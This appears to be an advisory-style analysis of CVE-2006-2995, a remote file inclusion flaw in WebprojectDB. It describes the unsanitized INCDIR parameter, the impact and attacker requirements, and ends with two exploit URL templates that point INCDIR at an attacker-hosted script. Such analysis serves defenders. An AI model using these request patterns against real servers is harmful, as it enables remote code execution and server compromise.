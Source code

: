 Based on the provided content, here's a breakdown of the vulnerability associated with CVE-2006-2995:

**Root Cause of Vulnerability:**

*   The vulnerability is a **Remote File Inclusion (RFI)** vulnerability.
*   The vulnerability exists because the `INCDIR` parameter in `nav.php` and `lang.php` is not properly sanitized, allowing an attacker to include remote files.

**Weaknesses/Vulnerabilities Present:**

*   **Unsanitized Input:** The application directly includes files specified by the `INCDIR` parameter without proper validation or sanitization.
*   **Remote File Inclusion:** The ability to include remote files through the `INCDIR` parameter allows an attacker to inject malicious code into the application.

**Impact of Exploitation:**

*   **Arbitrary Code Execution:** By including a malicious file from a remote server, an attacker can execute arbitrary PHP code on the vulnerable server.
*   **Compromise of the Application and Server:** Successful exploitation can lead to a full compromise of the web application and the underlying server.

**Attack Vectors:**

*   **HTTP GET Request:** The vulnerability is exploited through a crafted HTTP GET request targeting the vulnerable files (`nav.php`, `lang.php`) with the malicious remote file path provided in the `INCDIR` parameter.

**Required Attacker Capabilities/Position:**

*   **Remote Network Access:** The attacker needs to have network access to the vulnerable server.
*   **Knowledge of Vulnerable Parameter:** The attacker needs to be aware of the `INCDIR` parameter used in `nav.php` and `lang.php`.
*   **Ability to Host Malicious File:** The attacker needs to have the ability to host a malicious PHP file on a remote server that can be accessed by the vulnerable application.

**Technical Details:**

The exploit-db content provides specific vulnerable files and parameters:

```
http://www.site.com/[WebprojectDB_path]/include/nav.php?INCDIR=[evil_scripts]
http://www.site.com/[WebprojectDB_path]/include/lang.php?INCDIR=[evil_scripts]
```

Where:
*   `[WebprojectDB_path]` is the installation path of WebprojectDB.
*  `[evil_scripts]` is a URL pointing to the attacker's malicious PHP file.